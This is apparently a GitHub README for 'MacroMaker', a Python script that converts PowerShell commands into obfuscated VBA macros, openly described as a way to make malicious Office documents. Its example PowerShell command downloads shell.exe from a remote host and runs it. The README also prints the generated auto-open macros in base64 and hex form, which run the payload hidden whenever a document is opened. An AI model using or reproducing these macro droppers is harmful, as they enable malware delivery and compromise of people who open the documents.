


# MacroMaker
*****************************
### what is Macros :
* Macros are special-purpose programs used to automate procedures within a bigger application or software. Usually a macro consists of a series of      commands and actions written in a dedicated Macro Language or a standard programming language. These commands will be executed automatically by the application when a certain trigger takes place.

* Macros are implemented extensively within Office Suites to allow the automation of common tasks and procedures. Different suites use different macro  languages, but some notable mentions are Visual Basic for Applications (MS Office), LibreOffice Basic (LibreOffice) and OpenOffice Basic (OpenOffice).

* Most Office macro languages have rather extensive features and can access various resources. For example, MS Office macros (written in VBA) can run  executables and use networking capabilities.
* Macro  can  use to  generate malicious  Microsoft Word or Microsoft Excel document  
* [reference](https://www.cynet.com/attack-techniques-hands-on/office-macro-attacks/)
* [Microsoft Doc](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6)
### what is MacroMaker-
-------------------------------------
 * MacroMake is Script witten by python3 help to genertate  VBA  code ready to use
  - MacroMaker Take the powershell command as  aragnent  then will treanset the command to VBA code,  
  ready to  executed automatically any command  in  background
    - Executes PowerShell   or Uses networking capabilities to download files from remote servers ..etc
 * MacroMaker have to way to Gentate thr VBA code 
   - encode base16
   - hexformat

### How to enable-develope   -
-------------------------------------
 ### - enable Develope mode  to can inster macro in to microsoft-office 
 *  The Developer tab isn't displayed by default, but you can add it to the ribbon.
 - 1- On the File tab, go to Options > Customize Ribbon.
 - 3- Under Customize the Ribbon and under Main Tabs, select the Developer check box.
 * [reference](https://www.groovypost.com/howto/enable-developer-tab-microsoft-office-ribbon/)

 ## How to Use MacroMacker - 
 -----------------------------------------
 * git clone https://www.github.com/jac11/MacroMaker.git
 * cd MacroMaker
 * chmod +x MacroMaker.py
 * to see the help list MacroMaker.py -h/--help
 ## Eexpalin :-
----------------------------------------
 incace i need to download file and exctue after download i use powershaell  - 
 ```
 (New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')
 ```
- this code will download file from the server then will excxut it after download to use as VBA use Macromacker
- ./Macromaker.py <-c the poweshell code > <-n the file name to  save output > 
- ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
$ ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
* output VBA Script 
```

Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Str As String
	Str= str+"powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQA"
	Str= str+"LgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAE"
	Str= str+"YAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA5ADUALgAx"
	Str= str+"ADAAMAAuADIAMgAxADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAGUAeA"
	Str= str+"BlACcALAAnACAAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMA"
	Str= str+"XABEAG8AYwB1AG0AZQBuAHQAcwBcAHMAaABlAGwAbAAuAGUAeABlAC"
	Str= str+"cAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAoACcAIABD"
	Str= str+"ADoAXABVAHMAZQByAHMAXABQAHUAYgBsAGkAYwBcAEQAbwBjAHUAbQ"
	Str= str+"BlAG4AdABzAFwAcwBoAGUAbABsAC4AZQB4AGUAJwApAA=="
	CreateObject("Wscript.shell").Run Str , 0, True 
End Sub


```
* to use same command and get  output  as hex  code user --hex option
```
./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code --hex
```
* output 
```
Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Hex As String
	Hex ="powershell.exe $hexString ='"& _
	"28 4e 65 77 2d 4f 62 6a 65 63 74 20 4e 65 74 2e 57 65 62 43 6c 69 65 6e 74 29 2e"& _
	" 44 6f 77 6e 6c 6f 61 64 46 69 6c 65 28 27 68 74 74 70 3a 2f 2f 31 30 2e 31 39 35"& _
	" 2e 31 30 30 2e 32 32 31 3a 38 30 30 30 2f 73 68 65 6c 6c 2e 65 78 65 27 2c 27 20"& _
	" 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c 73"& _
	" 68 65 6c 6c 2e 65 78 65 27 29 3b 53 74 61 72 74 2d 50 72 6f 63 65 73 73 20 28 27"& _
	" 20 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c"& _
	" 73 68 65 6c 6c 2e 65 78 65 27 29'"& _
	";$hexString.Split(' ') | forEach {[char]([convert]::toint16($_,16))}"& _
	"| forEach {$result = $result + $_};Set-Variable -Name 'ROT' -Value ($result);Invoke-Expression $ROT "
	Set WshShell = CreateObject("Wscript.Shell")
	WshShell.Run Hex, 0, True
End Sub
```
* output  will save in the MacroStore folder under the name  user give it - n <the name >
  
  
-----------------------------------------------------------------

- rootx1982@gmail.com
-  thank you 
